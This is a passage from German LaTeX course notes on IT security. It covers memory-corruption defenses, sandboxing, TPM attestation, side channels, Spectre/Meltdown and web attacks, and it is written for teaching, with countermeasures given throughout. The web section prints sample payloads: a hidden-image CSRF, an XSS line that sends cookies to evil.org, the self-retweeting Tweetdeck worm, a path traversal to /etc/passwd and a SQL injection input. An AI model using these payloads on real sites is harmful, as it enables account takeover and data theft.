                	\underbrace{\texttt{AAAAAAAAAA}}_\text{\texttt{buf}}\underbrace{\texttt{\textbackslash{}x01\textbackslash{}x01\textbackslash{}x01\textbackslash{}x01}}_\text{Neuer BP}\underbrace{\texttt{\textbackslash{}x03\textbackslash{}x11\textbackslash{}x40\textbackslash{}x00\textbackslash{}x01}}_\text{Neuer IP}
                \end{equation*}
                Mit diesem Aufruf springt das Programm nun nach Beendigung der Methode \texttt{foo} zu der Methode \texttt{bar}.
            % end

            \paragraph{Gegenmaßnahmen}
                \begin{enumerate}
                	\item Gefährliche Operationen wie \texttt{strcpy} vermeiden (z.B. stattdessen \texttt{strcopy\_s} oder \texttt{strncopy\_s} verwenden).
                	\item \textbf{Random Canary Value:} Vor der Rücksprungadresse eine zufällige \textit{Canary Value} einfügen, bei der vor dem Rücksprung geprüft wird, dass sie noch den selben Wert hat.
                	\item \textbf{Address Space Layout Randomization} (ASLR): Dem Stack, Heaps, usw. werden zufällige Adressen zugewiesen. Der Angreifer kann so den Instruction Pointer nicht mehr so einfach setzen und der angriff wird erschwert. Allerdings ist es nicht unmöglich, ASLR zu umgehen (wenig Wahlmöglichkeiten im Adressraum, NOP Slides, Verteilen des Codes an mehreren Stellen (Spraying)).
                	\item \textbf{Data Execution Prevention} (DEP): Ein Teil des Speichers wird als nicht ausführbar markiert. Dadurch kann der Angreifer keinen Code mehr ausführen lassen. Dies kann allerdings mit Return-Oriented Programming umgangen werden.
                \end{enumerate}
            % end
        % end

        \subsection{Return-Orientierte Programmierung (ROP)}
            Bei \textit{Return-Orientierter Programmierung} (ROP) wird der Stack so modifiziert, dass beim nächsten Rücksprung indirekt fremder Maschinencode ausgeführt wird. Dieser Code stammt dann direkt aus dem Speicher und nicht aus dem Stack.
            
            \paragraph{Gegenmaßnahmen}
                \begin{itemize}
                	\item \textit{Added Space Layout Randomization} (ASLR) hilft hier (bedingt) auch.
                	\item \textit{Control-Flow Integrity} (CFL)
	                	\begin{itemize}
	                		\item Wird oftmals mit einem \textit{Shadow Stack} umgesetzt, der die Integrität des Stacks garantiert.
	                		\item Geht mit einem Performanz-Verlust einher.
	                		\item \textit{Control-Flow Enforcement Technology} (CET) auf Hardware-Ebene
	                	\end{itemize}
                \end{itemize}
            % end
        % end
    % end

    \section{Isolation}
        \begin{figure}[H]
        	\centering
            \begin{tikzpicture}[align = center, main/.style = { draw, rectangle, rounded corners, minimum width = 11.5cm }]
	            \node [main] (c) { \textbf{Confinement} (Beschränkung) \\ Eine Anwendung kann keinen Schaden im System verursachen. };
	            \node [main, below = 2 of c] (i) { \textbf{Isolation} \\ Jede Anwendung läuft in einer eigenen Umgebung. };
	            \node [main, below = 2 of i] (s) { \textbf{Sandboxing} \\ Eigene Software-Umgebung auf einem gemeinsamen Sytem. };
	            
	            \draw [->] (c) -- node[right]{kann implementiert werden durch} (i);
	            \draw [->] (i) -- node[right]{kann implementiert werden durch} (s);
            \end{tikzpicture}
        	\caption{Isolation: Begriffseinordnung}
        \end{figure}

        \subsection{Sandboxing durch virtuelle Maschinen}
            \begin{itemize}
            	\item Mit virtuellen Maschinen (VMs) können ganze Betriebssysteme gesandboxed werden.
            	\item Dadurch sind auch die Anwendungen in den VMs von dem sogenannten \textit{Hypervisor} getrennt.
            	\item Die Implementierung der Virtualisierung auf dem Hypervisor muss sicher sein, damit keine Malware aus den VMs ausbrechen kann.
            \end{itemize}
        % end

        \subsection{Container}
            \begin{itemize}
            	\item \textit{Container} sind ein alternatives Sandboxing-Prinzip zu VMs.
            	\item Mehrere Container teilen sich ein Betriebssystem und insbesondere den Kernel.
            	\item Dadurch sind Container leichtgewichtiger (schneller, weniger ressourcenhungrig) als echte VMs.
            	\item Ab Intel Skylake gibt es mit \textit{Intel Software Guard Extension} (SGX) eine Hardware-Erweiterung, um Hardware-geschützte Container zu erzeugen (sogenannte \enquote{Enklaven}, Trusted Execution Environments (TEE)). Diese bieten den Vorteil, dass sie nur wenige Megabyte groß sind.
            \end{itemize}
        % end

        \subsection{Trusted Platform Module (TPM)}
            \textit{Trusted Platform Modules} (TPMs) sind spezielle vertrauenswürdige Komponenten in zusätzlicher Hardware, um den Zustand eines System abzusichern. Sie enthalten unter anderen:
           	\begin{itemize}
           		\item Crypto Engines (RSA, SHA, PRG, \dots)
           		\item Speicher
           		\item Schlüssel
           		\item Platform Configuration Registers (PCR) \\ Enthalten (Hashwerte der) Konfiguration der Soft-/Hardware-Konfiguration des Systems. Sie nehmen Messungen von allen Komponenten vor. Dadurch ist es Möglich, den Zustand des Systems von Dritten prüfen zu lassen.
           	\end{itemize}
           
			\paragraph{Attestation (Bescheinigung)}
	            Für eine Sicherheits-Bescheinigung (\textit{Attestation}) sendet ein Server eine \textit{Challenge} an das System, welches diese Challenge an das TPM weiterleitet. Das TPM berechnet nun eine Signatur mit der Challenge und den Inhalten der PCR und sendet sie zurück an das System. Durch Weiterleitung der Signatur an den Server kann nun der Server prüfen, ob das System verändert wurde. Nur wenn die Signatur wie erwartet aussieht, kann das System noch als sicher bescheinigt werden werden.
	            \begin{figure}[H]
	            	\centering
	            	\begin{tikzpicture}[align = center, sz/.style = { minimum width = 1.7cm, minimum height = 1.7cm }]
		            	\ciscoClient{client}{sz}{};
		            	\ciscoServer{server}{sz, right = 6 of client, label = below:{prüfe die Signatur \\ bzgl. des öffentlichen \\ Schlüssels \(k_p\) des TPM}}{};
		            	\node [sz, draw, rectangle, below = 3 of client, label = below:{berechne \( s = \Sig(k_s,\, c \vert \textrm{PCR}) \)}] (tpm) {TPM};
		            	
		            	\path (client.south) -- coordinate(a) (client.south east);
		            	\path (client.south) -- coordinate(b) (client.south west);
		            	\path (client.east) -- coordinate(c) (client.north east);
		            	\path (client.east) -- coordinate(d) (client.south east);
		            	\path (server.west) -- coordinate(e) (server.north west);
		            	\path (server.west) -- coordinate(f) (server.south west);
		            	\path (tpm.north) -- coordinate(g) (tpm.north east);
		            	\path (tpm.north) -- coordinate(h) (tpm.north west);
		            	
		            	\draw [->] (g) -- node[right]{sende Signatur \(s\)} (a);
		            	\draw [->] (b) -- node[left]{sende \(c\)} (h);
		            	\draw [->] (d) -- node[below]{sende \(s\)} (f);
		            	\draw [->] (e) -- node[above]{sende Challenge \(c\)} (c);
	            	\end{tikzpicture}
	            	\caption{TPM: Attestation}
	            \end{figure}
            % end
        % end
    % end

    \section{Testen und Verifizieren}
        \begin{itemize}
        	\item Testen
            	\begin{itemize}
            		\item Prüft, ob Soft-/Hardware für bestimmte Eingaben korrekt arbeitet.
            		\item unvollständig
            	\end{itemize}
        	\item Verifizieren
            	\begin{itemize}
            		\item Beweis, dass Soft-/Hardware eine Spezifikation erfüllt.
            		\item Korrektheitsbeweis gemäß der Spezifikation.
            		\item komplex
            	\end{itemize}
        \end{itemize}

        \subsection{Arten des Testens}
            \begin{itemize}
            	\item Statisch (ohne Ausführung) vs. Dynamisch (zur Laufzeit)
            	\item Whitebox (mit Quellcode) vs. Blackbox (ohne Quellcode)
            	\item Testen von Sicherheitseigenschaften: Kein funktionales Testen, sondern C.I.A.-Eigenschaften.
            \end{itemize}
        % end

        \subsection{Security Testing}
            \begin{itemize}
            	\item Vulnerability Testing
                	\begin{itemize}
                		\item Prüfe auf bekannte Schwächen, mglw. automatisiert
                	\end{itemize}
            	\item Penetration Testing
                	\begin{itemize}
                		\item Simuliert (manuell/automatisch) einen Angriff
                		\item Wird auch \enquote{Ethical Hacking} genannt
                	\end{itemize}
            	\item Security Auditing
                	\begin{itemize}
                		\item Gutachten gemäß Standards
                	\end{itemize}
            	\item Risk Assessment
                	\begin{itemize}
                		\item Kosten-Nutzen-Analyse
                	\end{itemize}
            \end{itemize}
            Diese Tests werden idealerweise bereits im Entwicklungszyklus integriert.
        % end
        
        \subsection{Seitenkanal-Angriffe}
            Folgendes Programm sei gegeben:
            \begin{figure}[H]
            	\centering
            	\begin{lstlisting}
password = get_entered_password();
expected = get_expected_password();

wrong = 0;
for (i = 1 until expected.length) {
	if (password[i] != expected[i]) {
		false = i;
		break;
	}
}

if (wrong == 0) {
	// Grant access.
} else {
	report_error();
}
\end{lstlisting}
            	\caption{Seitenkanal-Angriff: Programm 1 (funktional Korrekt)}
            \end{figure}
            Das Programm ist funktional korrekt, allerdings kann ein Angreifer so lange alle Passwörter der Länge ein durchprobieren, bis die Antwortzeit länger wird. In diesem Fall mag das gesamt Passwort falsch sein, da die längere Ausführungszeit allerdings durch die erneute Ausführung der Schleife produziert wird, ist das erste Zeichen korrekt. Dies kann so lange wiederholt werden, bis alle Zeichen gefunden wurden.
            
            Besser: die Schleife bei einem falschen Zeichen nicht abbrechen, sondern bis zum Ende durchlaufen lassen:
            \begin{figure}[H]
            	\centering
            	\begin{lstlisting}
password = get_entered_password();
expected = get_expected_password();

wrong = 0;
for (i = 1 until expected.length) {
	if (password[i] != expected[i]) {
		false = i;
		// @@?kein break@@@
	}
}

if (wrong == 0) {
	// Grant access.
} else {
	report_error();
}
\end{lstlisting}
            	\caption{Seitenkanal-Angriff: Programm 2 (funktional Korrekt)}
            \end{figure}
            Jetzt kann das Passwort nicht mehr Zeichen für Zeichen an Hand der Ausführungszeit herausgefunden werden, allerdings steigt bei jeder Zuweisung von \texttt{wrong} der Stromverbrauch. Somit kann durch Messen des Stromverbrauchs das Passwort herausgefunden werden, da bei korrekten Buchstaben weniger Strom verbraucht wird.
            
            Besser: Auch für falsche Variablen wird eine Variable zugewiesen:
			\begin{figure}[H]
			\centering
			\begin{lstlisting}
password = get_entered_password();
expected = get_expected_password();

@@?fake = 0;@@@
wrong = 0;
for (i = 1 until expected.length) {
	if (password[i] != expected[i]) {
		false = i;
	} else {
		@@?fake = i;@@@
	}
}

if (wrong == 0) {
	// Grant access.
} else {
	report_error();
}
\end{lstlisting}
				\caption{Seitenkanal-Angriff: Programm 3 (funktional Korrekt)}
			\end{figure}
			Nun sind die offensichtlichen Seitenkanäle eliminiert, es kann jedoch noch weitere Seitenkanal-Angriffe geben, z.B. bei spekulativer Ausführung (wie bei Spectre und Meltdown).
        % end
    % end

    \section{Spectre und Meltdown}
        Spectre und Meltdown sind beides Angriffe auf die spekulative Codeausführung von Prozessoren, haben aber unterschiedliche Folgen:
        \begin{itemize}
        	\item Spectre
            	\begin{itemize}
            		\item Überbrückt die Grenze zwischen verschiedenen Programmen
            		\item Cache-Informationen auf vielen Prozessoren
            		\item Schwieriger zu verhindern
            	\end{itemize}
        	\item Meltdown
				\begin{itemize}
					\item Überbrückt die Grenze zwischen Programm und Betriebssystem
					\item Vor allem Kernel-Speicher auf Intel-Prozessoren
					\item Einfacher durchzuführen
				\end{itemize}
        \end{itemize}
    
        \paragraph{Spectre}
	        \begin{figure}[H]
	        	\centering
	        	\begin{lstlisting}[language = Python]
if x < array_1.size:
	y = array2[array1[x] * 4096]
\end{lstlisting}
	        	\caption{Spectre (vereinfacht)}
	        \end{figure}
	        \begin{enumerate}
	        	\item Der Angreifer trainiert die Branch-vorhersage mit \enquote{guten} \texttt{x}-Werten.
	        	\item Ausführung des Programms mit \enquote{schlechten} \texttt{x}-Werten. Durch die spekulative Ausführung lädt der Prozessor schon Daten außerhalb des Bereiches in den Speicher.
	        	\item Mit einem Cache-Angriff ließt der Angreifer nun die Daten aus.
	        \end{enumerate}
        % end
        
        \paragraph{Meltdown}
	        \begin{figure}[H]
	        	\centering
	        	\begin{lstlisting}[language = Python]
raise_exception()
# Diese Zeile wird nie erreicht.
access(probe_array[data * 4096])
\end{lstlisting}
	        	\caption{Meltdown (vereinfacht)}
	        \end{figure}
	        \begin{itemize}
	        	\item Der Prozessor holt eventuell bereits Daten in den Cache (Out-of-Order Execution).
	        	\item Der Autorisierungstest im Kernel wird noch nicht ausgeführt.
	        	\item Mit einem Cache-Angriff ließt der Angreifer nun die Daten aus.
	        \end{itemize}
        % end

        \subsection{Effekte}
            \begin{itemize}
            	\item Da Tools wie z.B. Firefox Passwörter im RAM speichern, ist es sehr wichtig, dass keine unbefugten Programme diesen Speicher auslesen können.
            	\item \textbf{Gegenmaßnahmen:}
                	\begin{itemize}
                		\item Kernel-Address-Isolation
                		\item Keine spekulative Ausführung
                		\item Diese Gegenmaßnahmen führen jedoch zu einem Performanz-Verlust von bis zu \(20\%\).
                	\end{itemize}
            \end{itemize}
        % end
    % end

    \section{Fragen} % 6
		\paragraph{Nennen Sie die Unterschiede zwischen Würmern, Viren und Trojanern.}
		\begin{description}
			\item[Würmer] Breiten sich selbst über das Netzwerk aus, beeinträchtigen \enquote{nur} die Leistung
			\item[Viren] Böswillige, selbstreplizierende Software, hängt sich an andere Systeme an, verändert das Aussehen
			\item[Trojaner] Software mit zusätzlicher böswilliger Funktion, repliziert sich nicht selbst
		\end{description}
		
		\paragraph{Erklären Sie die grundlegende Idee von Buffer-Overflow-Angriffen.}
		Bei einem Buffer-Overflow-Angriff wird ausgenutzt, dass die Grenzen eines Arrays nicht zwangsweise geprüft werden. Durch Eingaben, die länger als erwartet sind, können dadurch nachfolgende Werte im Speicher (z.B. lokale Variablen) überschrieben werden.
		
		\paragraph{Nennen Sie weitere C-Operationen wie \texttt{strcpy}, die Sie für unsicher halten.}
		Eine unsichere Operation ist \texttt{gets}, da diese einfach Daten vom Nutzer einließt, ohne die Länge zu prüfen.
		
		\paragraph{Was ist Sandboxing?}
		Beim Sandboxing wird eine Anwendung in einer eigenen, vom Rest des Systems isolierten, Umgebung ausgeführt, aus der die Anwendung nicht ausbrechen kann. Damit ist es möglich, das darunterliegende System zu schützen und gefahrlos Anwendungen zu testen.
		
		\paragraph{Diskutieren Sie Nachteile von Ansätzen, bei denen man vertrauenswürdige Hardware-Komponenten hat.}
		\begin{enumerate}
			\item Es wird zusätzliche Hardware benötigt, was das System komplexer macht.
			\item Eine Attestation ist ein Eingriff in die Privatsphäre des Nutzers, weshalb diese nie ohne dessen Zustimmung durchgeführt werden sollte.
		\end{enumerate}
		
		\paragraph{Nennen Sie Unterschiede zwischen Intels SGX-Technologie und dem TPM-Ansatz.}
		Bei dem TPM-Ansatz wird durch externe Hardware geprüft, ob das Hostsystem noch in Ordnung und sicher ist. Bei TEEs (Trusted Execution Environments) aus Basis von Intels SGX-Technologie werden eigene Container erstellt, die Hardware-geschützt laufen und nur wenige Megabyte groß sind. Die TEEs sind hilfreich für Isolation, die TPMs um ein System überprüfen zu lassen.
    % end
% end

\chapter{Web-Sicherheit}
    \begin{itemize}
    	\item Das Web ist interaktiv, es fließen sehr viele Daten vom Client zum Server und anders herum.
    	\item Dies sind unter anderem kritische Daten wie Bankzugangsdaten, Überweisungen, etc.
    	\item Dabei können Angriffe an vielen Stellen vorgenommen werden:
        	\begin{itemize}
        		\item Client-Seite (CSRF, XSS, \dots)
        		\item Netzwerk-Kommunikation (Man-in-the-Middle, \dots)
        		\item Server-Seite (SQL Injection, Path Traversal, \dots)
        	\end{itemize}
    \end{itemize}

    \paragraph{OWASP Top 10 Vulnerabilities}
	    Das \textit{Open Web Application Security Project} (OWASP) veröffentlicht eine Liste der Top 10 Angriffspunkte auf ein Web-System, die aktuellste Version aus dem Jahr 2017 umfasst die folgenden Punkte:
	    \begin{enumerate}
	    	\item Injection
	    	\item Broken Authentication
	    	\item Sensitive Data Exposure
	    	\item XML External Entities (XXE)
	    	\item Broken Access Control
	    	\item Security Misconfiguration
	    	\item Cross-Site Scripting (XSS)
	    	\item Insecure Deserialization
	    	\item Using Components with Known Vulnerabilities
	    	\item Insufficient Logging and Monitoring
	    \end{enumerate}
	    Das Dokument (siehe \HREF{https://www.owasp.org/images/7/72/OWASP\_Top\_10-2017\_\%28en\%29.pdf.pdf}) enthält zusätzlich genaue Beschreibungen, was mit welchem Punkt gemeint ist und dieser Angriffspunkt verhinderbar ist.
    % end

	\section{Angriffe auf Client-Seite}
		\subsection{Cookies}
			\begin{itemize}
				\item Ein Cookie ist eine kleine Datei, die vom Server gesetzt und beim Client gespeichert wird.
				\item Die grundlegenden Arten von Cookies sind:
					\begin{description}
						\item[Session Cookie] Ist nur für die Dauer der Session gültig.
						\item[Persistent Cookie] Ist auch über die Dauer der Session hinweg gültig, z.B. zur Wiederanmeldung ohne erneute Passworteingabe.
					\end{description}
				\item Wird ein Cookie als \textit{secure} markiert, kann dieser nur über SSL/TLS-Verbindungen übertragen werden. Wird ein Cookie als \textit{HttpOnly} markiert, kann dieser nicht von Skripten ausgelesen werden und nur über HTTP(S) übertragen werden.
			\end{itemize}
			\begin{figure}[H]
				\centering
				\begin{tikzpicture}[align = center, main/.style = { minimum height = 1.5cm }]
					\ciscoClient{client}{main}{above:{Client}};
					\ciscoServer{server}{main, right = 8 of client}{below:{Web-Server}};
					\node [below = 2 of client] (cookie) {speichere Cookie: \\ \texttt{name = \dots} \\ \texttt{value = \dots} \\ \texttt{attributes}};
					
					\path (client.north east) -- coordinate(a) (client.east);
					\path (client.south east) -- coordinate(b) (client.east);
					\path (server.north west) -- coordinate(c) (server.west);
					\path (server.south west) -- coordinate(d) (server.west);
					
					\draw [->] (c) -- node[above]{\circled{1} setze Cookie \texttt{name = \dots}} (a);
					\draw [<-] (d) -- node[below]{\circled{3} sende Cookie \texttt{name = \dots}} (b);
					
					\draw [->] (client) -- node[left]{\circled{2}} (cookie);
				\end{tikzpicture}
				\caption{Cookie-Konzept}
			\end{figure}
			\begin{itemize}
				\item Erhält ein Angreifer Zugriff auf einen solchen Cookie, kann er auf alle Daten des Nutzers zugreifen.
				\item Diesen Zugriff kann er bspw. über Trojaner, XSRF, XSS oder unverschlüsselte Übertragung erhalten.
			\end{itemize}
			
			\subsubsection{Cross-Site Request Forgery (CSRF)}
				\begin{figure}[H]
					\centering
					\begin{tikzpicture}[align = center]
						\ciscoClient{client}{}{above:{hat Cookie von \\ \texttt{example.org}}};
						\ciscoServer{server}{right = 6 of client}{above:{\texttt{example.org}}};
						
						\draw [->] (client) -- node[above](needle){\circled{1} Nutzer ist angemeldet} (server);
						
						\node [scale = 2.5, below = 3.5 of needle, label = below:{Eve}, evil, criminal] (eve) {};
						
						\draw [->, dashed, shorten <= 5pt] (eve) -- node[right, xshift = 5pt]{\circled{3} Aktualisiert E-Mail des Nutzers} (server);
						\draw [->, shorten >= 5pt] (client) -- node[left, xshift = -3pt]{\circled{2} Nutzer öffnet die Seite von Eve} (eve);
					\end{tikzpicture}
					\caption{CSRF}
				\end{figure}
				Die Website von Eve enthält ein verstecktes Bild, welches ein Skript auf \texttt{example.org} aufruft und die E-Mail-Adresse ändert:
				\begin{figure}[H]
					\centering
					\begin{lstlisting}[language = HTML]
<html>
<body>
	<img
		src="https://example.org/update-mail?address=eve@evil.org"
		width="0"
		height="0">
</body>
</html>
\end{lstlisting}
					\caption{CSRF: Appendix}
				\end{figure}
				Der Browser ließt das Cookie von \texttt{example.org} aus und sendet es bei dem laden des Bildes mit. Dadurch wird nun die E-Mail-Adresse aktualisiert und Eve bekommt zugriff auf den Account.
				
				\paragraph{Gegenmaßnahmen}
					\begin{itemize}
						\item Erwarte bei jedem Request ein zufälliges CSRF-Session-Token an dem Parameter.
						\item Neue Authentisierung bei wichtigen Aktionen (Sudo-Modus).
						\item Schnellere automatische Abmeldung der Anwender.
					\end{itemize}
				% end
			% end
			
			\subsubsection{Cookie-Cutter Angriff}
				\begin{itemize}
					\item Angriff auf die verschlüsselte Übertragung von Cookies.
					\item Wurde erfolgreich erprobt und noch vor der Veröffentlichung gelöst.
					\item \textbf{Fehler:} Manche Clients haben auch abgeschnittene Cookie-Daten akzeptiert und gespeichert.
					\item Dadurch konnte ein Angreifer versuchen, einen Teil der verschlüsselten Übertragung abzuschneiden.
					\item Hierdurch wurde das \texttt{; secure; httponly;} an einem Cookie entfernt, wodurch Angriffe mit CSRF/XSS/\dots möglich wurden.
				\end{itemize}
			% end
		% end
		
		\subsection{Cross-Site Scripting (XSS)}
			Bei \textit{Cross-Site Scripting} (XSS) Angriffen injiziert ein Angreifer externen Code (üblicherweise JavaScript o.ä.) in eine Website, der dann beim Aufruf der Website durch den Nutzer ausgeführt wird. Damit können bspw. Passwörter und andere Zugangsdaten ausgelesen werden.
			\begin{figure}[H]
				\centering
				\begin{tikzpicture}[align = center]
					\ciscoClient{client}{}{above:{hat Cookie von \\ \texttt{example.org}}};
					\ciscoServer{server}{right = 8 of client}{above:{\texttt{example.org}}};
					
					\draw [<-] (client) -- node[above](needle){\circled{2} HTML-Antwort mit schädlichem Code} (server);
					
					\node [scale = 2.5, below = 3.5 of needle, label = below:{Eve}, evil, criminal] (eve) {};
					
					\draw [->, shorten <= 5pt] (eve) -- node[right, xshift = 5pt]{\circled{1} Injiziert schädlichen Code} (server);
					\draw [->, dashed, shorten >= 5pt] (client) -- node[left, xshift = -18pt]{\circled{3} \textit{Informationen} \\ \textit{des Nutzers,} \\ \textit{z.B. Cookies}} (eve);
				\end{tikzpicture}
				\caption{Prinzip von XSS-Angriffen}
			\end{figure}
			Die Möglichkeiten für Eve sind hierbei sehr Zahlreich, z.B.:
			\begin{itemize}
				\item Einfach Demonstration des Prinzips: \lstinline[language = HTML]|<script>alert('XSS');</script>|
				\item Stehlen von Cookie: \\ \lstinline[language = HTML]|<script>new Image().src="https://evil.org/cookie?"+document.cookie;</script>|
				\item Umleiten auf eine falsche Login-Seite (zum stehlen von Passwörtern)
				\item Umleiten auf eine Seite mit Malware
				\item u.v.m.
			\end{itemize}
			
			\subsubsection{Unterarten}
				XSS-Angriffe lassen sich dabei grob in folgende Unterarten einordnen:
				\begin{description}
					\item[DOM XSS] Der Angriff nutzt eine Schwachstelle direkt im \textit{Document Object Model} (DOM) der Website aus, um Code in die Website einzuschleusen und so den Client zu schädigen.
					\item[Reflected (non-persistent) XSS] Der Angriff nutzt eine Schwachstelle im Server, um Code in die Website einzuschleusen und so den Client zu schädigen.
					\item[Persistent XSS] Der Angriff nutzt eine Schwachstelle im Server, um eingeschleusten Code permanent zu speichern und so dauerhaft an alle Clients auszuliefern und diese zu schädigen.
				\end{description}
				
				\paragraph{DOM XSS}
					\begin{itemize}
						\item Der Angriff wird ausschließlich auf Client-Seite ausgeführt.
						\item Zum Beispiel indem dem Nutzer ein Link zu einer vertrauenswürdigen Website gesendet wird, dieser Link im Parameter jedoch XSS enthält.
						\item Da der Angriff ausschließlich auf Client-Seite stattfindet, ist es sehr schwer bis unmöglich für den Server, solche Angriffe zu erkennen.
					\end{itemize}
				
					\paragraph{Beispiel}
						\begin{figure}[H]
							\centering
							\begin{lstlisting}[language = HTML]
<html>
<body>
<script>
	<!-- Lese den display= Parameter der URL aus und schreibe den Inhalt in das DOM. -->
	var pos = document.URL.indexOf('display') + 8;
	document.write(document.URL.substring(pos, document.URL.length));
</script>
</body>
</html>
\end{lstlisting}
							\caption{DOM XSS: Beispiel}
						\end{figure}
						Bei einem Aufruf mit \texttt{?display=Hello} wird einfach \texttt{Hello} angezeigt wie gewünscht.
						
						Wird das Dokument jedoch mit \texttt{?display=<script>alert('XSS');</alert>} aufgerufen, wird eine Alert-Box mit dem Inhalt \enquote{XSS} angezeigt. Der Code wurde also ausgeführt und der Angreifer könnte hier schädlichen Code einfügen.
					% end
					
					\paragraph{Gegenmaßnahmen}
						\begin{itemize}
							\item Parameter vor der Benutzung validieren.
							\item Eingaben des Nutzers nur \textit{escaped} anzeigen, also schädliche Zeichen wie \texttt{<} durch die HTML-Escape-Sequenzen wie \texttt{\&lt;} ersetzen.
							\item HttpOnly-Cookies, die nicht von Skripten ausgelesen werden können.
						\end{itemize}
					% end
				% end
				
				\paragraph{Reflected XSS Angriff}
					\begin{itemize}
						\item Arbeitet analog zum DOM XSS Angriff, nur dass der Parameter beim Server eingefügt wird.
					\end{itemize}
				
					\paragraph{Beispiel}
						\begin{figure}[H]
							\centering
							\begin{lstlisting}[language = PHP]
<html>
<body>
<?php
	print($_GET['display']);
?>
</body>
</html>
\end{lstlisting}
							\caption{Reflected XSS: Beispiel}
						\end{figure}
						Wie bei einem DOM XSS Angriff verhält sich die Seite bei einem Aufruf wie \texttt{?display=Hello} normal und es wird \enquote{Hello} angezeigt.
						
						Wird die Seite jedoch mit \texttt{?display=<script>alert('XSS');</script>} aufgerufen, wird der Code ausgeführt und eine Alert-Box mit \enquote{XSS} angezeigt.
					% end
					
					\paragraph{Gegenmaßnahmen}
						\begin{itemize}
							\item Parameter vor der Benutzung validieren.
							\item Eingaben des Nutzers nur \textit{escaped} anzeigen, also schädliche Zeichen wie \texttt{<} durch die HTML-Escape-Sequenzen wie \texttt{\&lt;} ersetzen (in PHP bspw. mit der Funktion \lstinline[language = PHP]|htmlspecialchars|).
							\item Http-Only-Cookies, die nicht von Skripten ausgelesen werden können.
						\end{itemize}
					% end
				% end
				
				\paragraph{Persistent XSS Angriff}
					\begin{itemize}
						\item Bei einem persistenten XSS Angriff wird der Schadcode dauerhaft auf dem Server gespeichert und beim Client ausgeführt.
						\item Dies kann z.B. passieren, wenn Nutzer auf einer Website Kommentare hinterlassen können.
						\item Wird diese Eingabe nicht korrekt validiert, kann Schadcode eingegeben werden, der dann bei jedem Client ausgeführt wird.
					\end{itemize}
				
					\paragraph{Beispiel}
						\begin{figure}[H]
							\centering
							\begin{lstlisting}[language = PHP]
<?php
	$filename = 'msg.txt';
?>
<html>
<body>
	<form method="POST">
		<input type="text" name="msg"> <br>
		<button type="submit" name="submit">Submit</button>
	</form>

<?php
	if (isset($_POST['submit'])) {
		file_put_contents($filename, $_POST['msg']);
	}

	if (file_exists($filename)) {
		print(file_get_contents($filename));
	}
?>
</body>
</html>
\end{lstlisting}
							\caption{Persitent XSS: Beispiel}
						\end{figure}
						Speichert ein Nutzer eine Nachricht wie \texttt{Hello}, so sehen alle nachfolgenden Nutzer diese Nachricht direkt hinter dem Submit-Knopf.
						
						Sendet ein Nutzer jedoch eine Nachricht wie \texttt{<script>alert('XSS');</script>}, dann wird dieser Code bei jedem nachfolgenden Nutzer ausgeführt, der die Seite öffnet. In diesem Fall wird nur eine Alert-Box angezeigt, es könnte jedoch sämtlicher Code ausgeführt werden.
					% end
					
					\paragraph{Gegenmaßnahmen}
						\begin{itemize}
							\item Parameter vor der Benutzung validieren.
							\item Eingaben des Nutzers nur \textit{escaped} anzeigen, also schädliche Zeichen wie \texttt{<} durch die HTML-Escape-Sequenzen wie \texttt{\&lt;} ersetzen (in PHP bspw. mit der Funktion \lstinline[language = PHP]|htmlspecialchars|).
							\item Http-Only-Cookies, die nicht von Skripten ausgelesen werden können.
						\end{itemize}
					% end
					
					\paragraph{Weiteres Beispiel}
						Ein prominentes Beispiel für XSS ist 2014 aufgetreten, als Tweetdeck eine fatale XSS-Lücke aufwies (sämtlicher Tweets wurden ausgeführt). Mit einem Tweet mit dem folgenden Inhalt:
						\begin{figure}[H]
							\centering
							\begin{lstlisting}[language = HTML]
<script class="xss">
	$('.xss')
		.parents()
		.eq(1)
		.find('a')
		.eq(1)
		.click();
	$('[data-action=retweet]').click();
	alert('XSS in Tweetdeck')
</script> *@\(\heartsuit\)@*
\end{lstlisting}
							[Die Leerzeichen wurden nur zur besseren Lesbarkeit \\ eingefügt und waren nicht Teil des Tweets.]
							\caption{Selbstreplizierender Tweet}
						\end{figure}
						Der von \texttt{@derGeruhn} erstellt wurde, wurde auf die Sicherheitslücke in großer Form aufwendig gemacht, da sich der Tweet beim Anschauen des Tweets selbst retweetet. Dadurch entstand ein Schneeballsystem, welches nur durch das Schließen der XSS-Lücke gestoppt werden konnte.
					% end
				% end
			% end
		% end
	% end
	
	\section{Angriffe auf Netzwerk-Seite}
		Siehe Kapitel \enquote{Netzwerksicherheit} (\ref{c:networksecurity}).
	% end
	
	\section{Angriffe auf Server-Seite}
		\subsection{Path Traversal}
			\begin{itemize}
				\item Bei dem Aufruf einer URL wird ein Pfad angegeben, z.B. \texttt{https://dmken.com/cs}.
				\item Dieser Pfad kann so modifiziert werden, dass ein darüber liegendes Verzeichnis ausgelesen wird, z.B. mit \texttt{https://dmken.com/../../etc/passwd}.
				\item Auf Systemen ohne Absicherung gegen solche Angriffe könnte nun der Inhalt der Datei \texttt{/etc/passwd} ausgelesen werden.
			\end{itemize}
			
			\paragraph{Gegenmaßnahmen}
				\begin{itemize}
					\item Validierung der Eingaben.
					\item Rechtevergabe, sodass wichtige Daten nicht durch den Server gelesen werden können.
					\item Firewalls.
				\end{itemize}
			% end
		% end
		
		\subsection{SQL-Injection}
			\begin{itemize}
				\item Bei SQL-basierten Seiten werden oftmals Parameter der URL an die Datenbank übergeben, z.B. um die korrekte Seite abzufragen.
				\item Bei der \textit{SQL-Injection} wird durch geschickte Eingabe versucht, den darunterliegenden SQL-Query zu modifizieren und Daten über das System zu erhalten.
				\item Außerdem können Tabellen gelöscht, Einträge angelegt oder aktualisiert werden oder auch die ganze Datenbank gelöscht werden.
			\end{itemize}
		
			\paragraph{Beispiel}
				\begin{itemize}
					\item Bei einer URL \texttt{?id=\underline{\$id}} wird die Seite mit der gegebenen ID ausgegeben.
					\item Zum Abfragen der anzuzeigenden Seite wird folgender Query verwendet:
						\begin{figure}[H]
							\centering
							\begin{lstlisting}[language = SQL]
SELECT * FROM page WHERE id = "*@\underline{\texttt{\$id}}@*";
\end{lstlisting}
						\end{figure}
					\item Mit einem geschickten Aufruf der URL kann der Nutzer an alle Seiten, die in dem System liegen kommen.
					\item Einer dieser Aufrufe ist z.B. \texttt{?id=}\underline{\texttt{0\"{} OR {}\"{}\"{} = \"}}. Der SQL-Query wird wie folgt zusammen gebaut:
						\begin{figure}[H]
							\begin{lstlisting}[language = SQL]
SELECT * FROM page WHERE id = "*@\underline{\texttt{0\"{} OR {}\"{}\"{} = \"}}@*";
\end{lstlisting}
						\end{figure}
					\item Da \texttt{"" = ""} immer Wahr ist, werden dem Nutzer nun alle Seiten des Systems angezeigt.
